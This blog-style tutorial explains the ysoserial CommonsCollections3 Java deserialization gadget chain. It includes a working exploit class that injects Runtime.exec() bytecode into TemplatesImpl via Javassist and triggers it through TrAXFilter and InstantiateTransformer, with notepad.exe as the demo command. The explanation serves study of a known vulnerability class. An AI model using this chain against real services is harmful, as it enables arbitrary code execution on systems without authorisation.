

CommonsCollection3
CommonsCollections3 and CommonsCollections1 are almost identical.
The only difference is that instead of using InvokerTransformer, CommonsCollections3 uses InstantiateTransformer along with TemplatesImpl and TrAXFilter.class.
If you are not familiar with how Javassist works, please review the official tutorial at https://www.javassist.org/tutorial/tutorial.html before continuing. A solid understanding of Javassist is crucial to follow the payload explanation.
Let's now understand how InstantiateTransformer works,
and why we need TemplatesImpl and TrAXFilter.
Check out the bonus article to dive deeper into these concepts and to see how we can modify existing ysoserial code with small changes to achieve code execution.
InstantiateTransformer
The InstantiateTransformer takes a class and instantiates it using the value (data) provided.
The InstantiateTransformer() constructor accepts two parameters:
- Parameter types — a
Class[]array of constructor parameter types - Arguments — an
Object[]array of the values to pass
When we call transform() on an InstantiateTransformer, it takes a single argument.
Let's call this argument input.
Now, let's see how the transform() method is implemented inside InstantiateTransformer.
@Override
public T transform(final Class input) {
try {
if (input == null) {
throw new FunctorException(
"InstantiateTransformer: Input object was not an instanceof Class, it was a null object");
}
final Constructor con = input.getConstructor(iParamTypes);
return (T) con.newInstance(iArgs);
} catch (final NoSuchMethodException ex) {
throw new FunctorException("InstantiateTransformer: The constructor must exist and be public");
} catch (final InstantiationException ex) {
throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
} catch (final IllegalAccessException ex) {
throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
} catch (final InvocationTargetException ex) {
throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
}
}
Which can be simplified as below
public T transform(final Class input) {
final Constructor con = input.getConstructor(iParamTypes);
return con.newInstance(iArgs);
}
So the argument we pass to transform() is the input. The transformer uses reflection to find a public constructor that accepts the parameter types (iParamTypes) provided during initialization, then creates a new instance by calling newInstance().
Let's look at an example.
Lets say we have a class called AnotherClass which looks like below
import java.lang.reflect.Method;
public class AnotherClasss {
public AnotherClasss(testclass b, String input) {
b.Hello(input);
}
}
Lets Say there is another class called testclass which looks like below
public class testclass { public void Hello(String a) { System.out.println(a); } }
Now suppose we want to call the testclass.Hello() method, but this time by using InstantiateTransformer.
We can achieve this through AnotherClass, and the code will look like the following:
import org.apache.commons.collections.functors.*; import org.apache.commons.collections.Transformer; public class instantclass { public static void main(String args[]) { testclass t = new testclass(); Class[] paramTypes = new Class[] { testclass.class, String.class }; Object[] args = new Object[] { t, "ITWORKS" }; InstantiateTransformer instantiate = new InstantiateTransformer( paramTypes, args); instantiate.transform(AnotherClasss.class); } }
So how exactly does this work?
As we saw above, the transform() method takes AnotherClass.class as input and looks for all its public constructors.
It finds the constructor AnotherClass(testclass b, String input) and instantiates it.
During instantiation, the constructor body executes, which calls b.Hello(input), i.e., testclass.Hello("ITWORKS").
The Hello(String a) method simply prints the input, so the output is ITWORKS.

Now, let's move on to understanding the payload.
public Object getObject(final String command) throws Exception {
Object templatesImpl = Gadgets.createTemplatesImpl(command);
// inert chain for setup
final Transformer transformerChain = new ChainedTransformer(
new Transformer[] { new ConstantTransformer(1) });
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(
new Class[] { Templates.class },
new Object[] { templatesImpl })
};
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain
return handler;
}
In the code above, we are using InstantiateTransformer with Templates.class and passing a TemplatesImpl instance.
The templatesImpl object is obtained from Gadgets.createTemplatesImpl(command).
Instead of reviewing the Gadgets.class from ysoserial, let’s review the code below.
It is essentially the same, but here we are creating our own class instead of relying on Gadgets.class.
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import java.lang.reflect.Field; import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet; import org.apache.commons.codec.binary.Base64; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl; import javax.xml.transform.Templates; import javax.xml.transform.Transformer; import org.apache.commons.collections.functors.*; public class TemplatesImplExploit { public static void main(String[] args) throws Exception { String command = "notepad.exe"; ClassPool pool = ClassPool.getDefault(); /* * So inside the pool.get() we can pass any random existing className , we just have to keep in mind that we call * clazz.makeClassInitializer().insertAfter(cmd); and CtClass superC = pool.get(AbstractTranslet.class.getName()); * clazz.setSuperclass(superC); * * Reason for calling the above 2 are. * 1.In TemplatesIMPL Class when we set the _byteCode to a bytecode of ourchoice, our bytecode must be extending the * AbstractTranslet.class or else TemplatesIMPL will not execute it. */ final CtClass clazz = pool.get(TemplatesImplExploit.class.getName()); String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replace("\\", "\\\\").replace("\"", "\\\"") + "\");"; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class.getName()); clazz.setSuperclass(superC); final byte[] classBytes = clazz.toBytecode(); byte[] maliciousBytecode = classBytes; /* * Till Line 58 we are creating an Object of TemplatesIMPL class and using reflection to set the _bytecode,_name and * _tfactory , as these are necessary fields. */ TemplatesImpl templates = new TemplatesImpl(); Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes"); bytecodesField.setAccessible(true); bytecodesField.set(templates, new byte[][]{maliciousBytecode}); Field nameField = TemplatesImpl.class.getDeclaredField("_name"); nameField.setAccessible(true); nameField.set(templates, "Exploit"); Field tfacname = TemplatesImpl.class.getDeclaredField("_tfactory"); tfacname.setAccessible(true); tfacname.set(templates, TransformerFactoryImpl.class.newInstance()); // templates.newTransformer(); /* * Below we are using the transformer chain. * The reason why we are taking TemplatesIMPL , is becuase it takes a _bytecode and execute it. * * Why we use TrAxFilter.class * If you see the line 65 there is templates.newTransfromer().This is exactly where our _bytecode gets executed. * So while using the InstantiateTransformer, we have to find a subsequent class (Like Runtime.class in InvokerTransformer) * that takes a entry of type Templates.class and calls the newTransformer() method * * But why so. * * If you see how exactly the InstantiateTransformer.transfrom() wroks , you will see the below code. * * public T transform(final Class input) { * final Constructor con = input.getConstructor(iParamTypes); * return con.newInstance(iArgs); * } * * So in the above code the transfrom() takes a class as input and calls the getConstructor(), which will return * all the public constrcutors present in there , however it's also passing an argument in getConstructor of * iParamTypes which it gets from the initilisation, so on the below code it will be Templates.class * * So what it will do, it will look for the constructor that takes an argument of type Templates.class and where will it * look? * * It will look into the TrAXFilter.class for us cause that is what we are passing in. * If we pass any other class , then it should meet the above criteria so that we can use the InstantiateTransformer. * * Once we set the Transfromer we are simply calling the chainedTransfromer but in a simple way */ ConstantTransformer tr = new ConstantTransformer(1); ConstantTransformer tr1 = new ConstantTransformer(TrAXFilter.class); InstantiateTransformer tr2 = new InstantiateTransformer( new Class[] { Templates.class }, new Object[] { templates }); tr2.transform(tr1.transform(tr.transform("test"))); } }
In the code above, there are three main sections:
[1] We use Javassist to insert the command dynamically at runtime.
Inside pool.get(), we can pass any existing class name. The key points are:
- Call clazz.makeClassInitializer().insertAfter(cmd);
- Call CtClass superC = pool.get(AbstractTranslet.class.getName());
- Finally, set clazz.setSuperclass(superC);
The reason for the last two calls is simple: in the TemplatesImpl class, when we set _bytecodes to our custom bytecode, that bytecode must extend AbstractTranslet. Otherwise, TemplatesImpl will not execute it.
[2] We set the _bytecodes, _tfactory, and _name fields.
Up until line 58, we are creating an object of TemplatesImpl and using reflection to set these fields, as they are required for the class to function.
The _bytecodes field simply holds the bytecode of our dynamically generated class created via Javassist.
[3] We configure InstantiateTransformer to execute the TemplatesImpl object.
This step is what ultimately triggers the malicious behavior.
Now, there are a couple of important questions:
-
Why
TemplatesImpl?
BecauseTemplatesImplaccepts custom bytecode and executes it. -
Why
TrAXFilter?
If you look at line 65, you’ll seetemplates.newTransformer(). This is the exact point where our injected bytecode is executed. So, when usingInstantiateTransformer, we need a class (similar to howInvokerTransformerrelies onRuntime.class) that takes aTemplatesobject and callsnewTransformer(). That class isTrAXFilter.
If you examine how InstantiateTransformer.transform() works, you’ll find the following code:
public T transform(final Class input) {
final Constructor con = input.getConstructor(iParamTypes);
return con.newInstance(iArgs);
}
In the code above, transform() takes a Class as input and calls getConstructor(). That returns the public constructors for the class, but getConstructor() is called with iParamTypes (the constructor parameter types provided during initialization). In this example, iParamTypes is Templates.class.
The transformer will therefore look for a constructor that accepts a Templates argument. It will search in TrAXFilter.class because that's the class we pass to transform(). If you pass a different class, it must also have a public constructor matching the specified parameter types for InstantiateTransformer to work. (See the "How InstantiateTransformer Works" section for details.)
After we arm the transformer chain, we trigger it in the same way as CommonsCollections1 — using a chained transformer gadget (for example via a LazyMap.get() call).
-
Why pass
1intoConstantTransformer?You don't strictly need this inert step — it is only used as a harmless placeholder during payload setup. The exploit still works if you remove it.
That's how CommonsCollections3 works.
We use TemplatesImpl to execute our injected bytecode, and InstantiateTransformer to instantiate the class (for example, TrAXFilter) that triggers newTransformer().
Aside from those changes, everything else in the gadget chain is the same as in CommonsCollections1.
Summary:
CommonsCollections3is similar to CC1, but usesInstantiateTransformerinstead ofInvokerTransformer.InstantiateTransformertakes a class and instantiates it using specified constructor arguments.- We use
TemplatesImplto embed malicious bytecode, which is executed whennewTransformer()is called. TrAXFilter.classis chosen because it has a public constructor that takes aTemplatesobject and internally callsnewTransformer().- The transformer chain consists of:
ConstantTransformer(TrAXFilter.class)- always returns the classInstantiateTransformer- uses the class and the maliciousTemplatesImplobject to instantiate a newTrAXFilter, triggering the exploit
TemplatesImplis created using JavaAssist to inject a malicious static initializer (e.g.,Runtime.getRuntime().exec()).- Execution occurs when the transform chain is triggered (e.g., via
LazyMap.get()or any gadget that invokes the transformer).
Thats it for Today.
Thanks For Reading.
Happy Hacking.
You can connect with me at: